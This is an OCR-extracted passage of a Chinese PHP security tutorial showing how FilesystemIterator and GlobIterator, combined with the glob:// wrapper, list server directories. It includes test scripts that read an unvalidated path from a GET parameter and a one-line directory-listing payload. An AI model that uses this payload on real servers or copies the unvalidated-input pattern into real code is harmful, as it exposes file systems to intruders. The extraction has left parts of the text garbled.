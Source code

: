       
    $dir = $_GET [ 'whoami' ];   
    $a = new  FilesystemIterator ( $dir );   
    foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' ); // 不加__toString()也可,因为echo可以自动调用} ?>  
          
      
      
      
    #payload 一句的形式：  
    $a = new  FilesystemIterator ( "glob:///*" ); foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' );}  
      
  
---|---  
  
`  
`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084313.png)`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084314.png)`

  * `使用 GlobIterator 类`

`由于使用 GlobIterator 类支持直接通过模式匹配来寻找文件路径，所以我们就不用配合glob://协议了。`

`测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    $dir = $_GET [ 'whoami' ];   
    $a = new  GlobIterator ( $dir );   
    foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' ); // 不加__toString()也可,因为echo可以自动调用} ?>  
          